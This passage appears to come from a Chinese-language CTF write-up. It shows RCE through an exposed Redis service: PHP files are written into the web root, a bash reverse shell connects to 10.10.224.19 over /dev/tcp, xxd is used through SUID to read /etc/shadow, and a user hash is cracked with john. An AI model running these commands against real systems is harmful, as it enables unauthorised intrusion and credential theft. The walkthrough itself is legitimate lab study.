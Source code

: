 ```plain
redis-cli -h 10.10.185.22 -p 6379
```

利用redis服务的命令进行rce

```plain
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo();?>"
save
```

[![](assets/1706771526-9802d69df8f0ea9fbaeb5c7bdfe3265b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223227-399eef12-beb3-1.png)

之后访问redis.php发现有phpinfo的界面

之后可以重新写个shell进行,

这里我正常写bash的shell不太行，调用了绝对路径才能弹shell

```plain
set test “<?php exec(\”/bin/bash -c ‘bash -i > /dev/tcp/10.10.224.19/2333 0>&1’\”); ?>”
```

之后进入shell，起一个标准的pythonshell

suid提权xxd

先看一下/etc/shadow

```plain
xxd "/etc/shadow" | xxd -r
```

得到vianka的哈希，进行john爆破

[![](assets/1706771526-22ad0a4b1c8b70c2abc352a2f0f103bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223231-3c3a077a-beb3-1.png)
